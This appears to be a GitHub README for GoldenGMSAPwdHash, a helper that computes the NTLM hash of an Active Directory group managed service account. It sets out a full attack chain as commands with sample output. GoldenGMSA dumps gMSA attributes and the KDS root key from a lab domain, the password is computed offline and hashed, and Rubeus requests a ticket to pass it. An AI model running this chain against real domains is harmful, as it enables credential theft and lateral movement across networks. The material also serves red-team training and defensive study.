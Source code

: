 # GoldenGMSAPwdHash
Calculate Password hash from the extracted GMSA Base64 Password String.

**Obtain GMSA Account Information**

```bash
GoldenGMSA.exe gmsainfo -d us.techcorp.local

sAMAccountName:         jumpone$
objectSid:                      S-1-5-21-210670787-2521448726-163245708-8601
rootKeyGuid:            03239602-ab96-d31f-3fe6-24ea819a66f6
msds-ManagedPasswordID: AQAAAEtEU0sCAAAAaAEAAAgAAAAJAAAAApYjA5arH9[..snip..]
```

**Extract the KDS Root Key**

```bash
GoldenGMSA.exe kdsinfo --forest us.techcorp.local

Guid:           03239602-ab96-d31f-3fe6-24ea819a66f6
Base64 blob:    AQAAAAKWIwOWqx/TP+Yk6oGaZvYAAAAAAQAAAAA[..snip..]
```

**Calculate Pasword Offline**

```bash
GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey BASE64_BLOB_DATA --pwdid MSDS-MANAGEDPASSWORDID

Base64 Encoded Password:        ZSWQIz5mLbEcw6mm8J49DWCADxDT703UPFLbRftDTqE7WzAf[..snip..]
```

**Calculage NT HASH**

```bash
python3 goldengmsapwdhash.py --password XyQLsufa2UdpxPeVN0Gj6Zv7nCTvb92[..snip..]
 
NTLM Hash: a2*******************************80
```

**Move Further with OPTH**

```bash
C:\ad\Tools\Rubeus.exe asktgt /user:jumpone$ /domain:us.techcorp.local /rc4:a2****************************80 /ptt
```

